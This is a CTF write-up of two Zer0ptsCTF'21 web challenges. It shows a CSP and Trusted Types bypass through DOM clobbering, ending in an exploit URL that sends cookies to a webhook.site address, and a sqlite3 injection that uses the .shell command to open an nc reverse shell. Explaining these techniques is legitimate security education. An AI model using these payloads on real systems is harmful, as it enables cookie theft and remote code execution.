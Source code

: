 ```yaml
---
layout: post
title: Zer0ptsCTF - Web Exploitation
excerpt: "
Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. "
categories: [writeups, Zer0ptsCTF'21]
tags: [web]
---
```


Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. 

#### Simple Blog
```
Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
```

This challenge gives us a really obvious HTML injection marker and we have to find some way to convert that to full XSS. As it is PHP wtih no filtering, we see that the following will let us insert any HTML by simply closing out the tag. i.e `"><h1>test</h1>`.
```php
<link  rel="stylesheet" href="/css/bootstrap-<?= $theme ?>.min.css">
<link  rel="stylesheet" href="/css/style.css">
```

The much more interesting function and what we have to bypass is the CSP which is given to be `<meta  http-equiv="Content-Security-Policy"  content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-<?= $nonce ?>' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">` and a trusted types from the init function which is implemented through a polyfill.
```html
<script src="/js/trustedtypes.build.js" nonce="<?= $nonce ?>" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
```

The code which actually implements trustedTypes is the following.
```javascript
    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
```

To quickly summarize trusted types, it restricts certain actions on the DOM. In this case, when some HTML is created, it replaces `<>` and when a new script is created the src url is passed through the `createScriptURL` function.

Now let's think about how we can bypass this. Our goal should be to be able to create a script with a src to the JSONP endpoint and be able to control the actual response. The first problem we face is trusted types. No matter what we do, be it HTML injection or manipulating the javascript, we will not be able to call the JSONP endpoint with `?callback=ourpayload` because of trusted types. How can we bypass this? The important note here is that the admin is running Firefox. As of writing this blog, Firefox has not implemented trusted types by default, hence the need for the polyfill. What this also means is that the trustedTypes object referenced by the javascript is not a native call.

The first idea that came to mind was if we can abuse the fact that it is in a try catch. If we could somehow make it fail and not raise an error, we would be able to create script tags with the `?callback` parameter. In order to do this, we can use DOM clobbering. If the following HTML is injected into the page, trustedTypes will look at the HTML element and not the trustedTypes from the javascript.

`<form id=trustedTypes></form>`

However, this is not enough because the catch will still raise an Error and we still won't be able to call the JSONP endpoint. However, if we can make `!trustedTypes.defaultPolicy` to be true then the Error will not be raised. This means we can simply make our DOM clobber to be the following and we will effectively disable trusted types in Firefox.

`<form id=trustedTypes><output id=defaultPolicy>`

Finally, we can DOM clobber callback and that will be passed to `jsonp('/api.php', window.callback);` which will let us create a script element with `?callback=ourpayload`. In order to do this 1 level clobber, I used the following format which will get rid of the automatic `https://` appended to the payload.

`<a id=callback href=a:alert(1);>`

This is where another really neat trick comes in. The PHP code limits our callback payload to 20 characters and it is not nearly enough to execute the javascript needed to exfil the flag. The following is from the official writeup [here]() and allows executing payloads longer than 20 characters. What we can do is instead of putting our jayload in the callback, we can just use javascript to eval some data on the page. 

The payload passed to the callback parameter would look like this.
`<a href="a:jsonp(x)" id="callback"></a>`

And using our HTML injection, we can add another element like this.
`<a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>`

Our final URL sent to the admin looks like the following.
```
http://web.ctf.zer0pts.com:8003/?theme="><a id=callback href=a:jsonp(x)><form id=trustedTypes><output id=defaultPolicy><a href="data:text/plain;base64,(b64payload)" id="x"></a>
```

The content of the payload would be the following base64 encoded and we would get the cookie to our webhook.
```
location='https://webhook.site/asdf/'+document.cookie
```

Overall this was a very neat challenge in bypassing trusted types with DOM clobbering. The use of data decoding base64 inline is a cool idea and something to keep in mind for bypassing WAFs in the future.

#### Baby SQLi
```
Just login as admin.
```

This challenge was based around sql injection but in a very interesting and different manner. The core functionality was just a login page with a sqlite database backend. The most important code segments are the following.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

def auth():
    # snip
    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    # snip
```

Summarizing the code, our username is passed to `sqlite3_escape`, formatted into a query, and sent to `sqlite3_query`. One thing to note here is that the escaping function adds a `\` infront of the block listed characters.  In addition, the way the query is ran is not through a sqlite3 library but rather with a Process.

Let's break this down one at a time. First, how are we even able to inject SQL? After a bit of googling, we found that sqlite escapes characters via double quotations, i.e `"a escaped "" wow"`. This will properly escape the quotation mark. However, as we looked at earlier the `sqlite3_escape` method adds backslashes. 

With this in mind, we are now able to craft queries like the following.
`SELECT * FROM users WHERE username="alice\"" AND password="asdf"`

This doesn't properly escape the quotation mark, rather it just throws an error. Now we can inject a semicolon and exit the statement! If our payload is `";`, our query now becomes the following.
`SELECT * FROM users WHERE username="alice\";" AND password="asdf"`

To make this exploitable, we used some attributes from the allow list. Two interesting things is that all whitespace (spaces, tabs, newlines) are allowed and periods (.) are allowed. We know that sqlite has special commands for statements that start with periods so we can think about how to exploit this.

What we ended up doing was adding a newline, calling the .shell function with arguments we wanted, and adding a final newline to get rid of the junk. This works because a newline is interpreted as a new command to the process. Although individual lines may error, the process is still running and thus our commands would still go through.

Our final payload was the following and has some tricks to make it smaller to reach the character limit where xxx.xx is your domain.
`";\n.shell nc xxx.xx 8 -e sh\n`

There are some things to address about our payload. First, why are we able to include a `-e` when it would become `\-e` and not work? This was discovered during testing by a teammate but we found that the `.shell` command actually expands the backslashes. This means it will actually become  `-e` when the command is executed.

Second, there are some optimizations to the nc reverse shell. The two main things were using a small port (8) and using `sh` instead of `/bin/sh`. Port 8 works but the listener must be run with sudo due to it not being a typically used port. The optimization to use `sh` came from local testing. I cannot say how important local testing is! If you are given the docker environment, like many of the zer0pts challenges were, always run the docker and try stuff out locally. You never know what you may find.

With this final payload, we are able to get a shell on the system and cat index.html for the flag. The description was a bit misleading as we needed RCE not just a typical sql injection but a very interesting challenge overall.
